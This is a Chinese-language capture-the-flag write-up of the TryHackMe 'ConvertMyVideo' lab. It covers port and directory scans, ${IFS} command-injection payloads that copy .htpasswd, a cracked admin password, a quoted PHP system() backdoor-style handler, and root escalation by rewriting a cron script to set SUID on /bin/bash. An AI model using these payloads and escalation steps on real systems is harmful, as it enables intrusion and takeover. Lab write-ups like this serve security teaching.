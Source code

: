 ```yaml
---
sidebar_position: 98
tags: [Easy, Linux, 命令注入, 定时任务]
title: "ConvertMyVideo"
description: "ConvertMyVideo"
sidebar_label: "ConvertMyVideo"
slug: /tryhackme/98
---
```

# ConvertMyVideo
## 端口扫描
```bash
root@ip-10-10-210-11:~/convertmyvideo# nmap -sTCV -p 22,80 --min-rate 1000 10.10.124.201

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-18 04:35 BST
Nmap scan report for ip-10-10-124-201.eu-west-1.compute.internal (10.10.124.201)
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:49:2B:4E:9A:51 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
```
## 80
```bash
root@ip-10-10-210-11:~/convertmyvideo# gobuster dir -u http://10.10.124.201/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.201/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/18 04:41:38 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/admin (Status: 401)
/js (Status: 301)
/tmp (Status: 301)
```

访问站点, 根据题目给出的条件来看这是一个将视频下载到本地的程序, 这种一般是存在 SSRF 和 命令注入的, 截获请求, 我发现其所请求的视频 URL 是在前端拼凑的, 所以可以借此来进行攻击, 最后发现了 命令注入

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123719.png)

然后开始了一系列的攻击:

- 需要绕过空格我在这里使用了 ${IFS}
- 可以返回内容, 但是需要经过 base64 加密, 但是返回的数据长度优点限制

结合上面的内容, 同时扫描出来的 admin 页面进行了密码保护, 我进行了文件的重命名操作

```bash
<http://10.10.210.11:8000/admin?page=`cp${IFS}./admin/.htpasswd${IFS}admin1.txt`>
<http://10.10.210.11:8000/admin?page=`cp${IFS}./admin/index.php${IFS}admin.txt`>
```

访问重命名后的文件, 基于此我获取到了密码

```bash
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ --> 解密后: jessie
```

我们的 `index.php` 的源码

```bash
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>

<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
</a>
```

这里存在命令执行

## 后渗透

### www-data

基于上面发现的命令注入漏洞来获取一个 Shell

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123811.png)

### www-data —> root

筛查定时任务我发现 root 用户在定时执行一些程序

![img](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-123821.png)

因此我修改了这里的 cleans 文件来获取 Shell

```bash
(remote) www-data@dmv:/var/www/html/tmp$ ls -al
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Sep 18 04:13 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
(remote) www-data@dmv:/var/www/html/tmp$ cat clean.sh 
rm -rf downloads
(remote) www-data@dmv:/var/www/html/tmp$ rm -rf clean.sh 
(remote) www-data@dmv:/var/www/html/tmp$ ls
(remote) www-data@dmv:/var/www/html/tmp$ cat << EOF >clean.sh
> chmod u+s /bin/bash  
> EOF
(remote) www-data@dmv:/var/www/html/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
(remote) www-data@dmv:/var/www/html/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```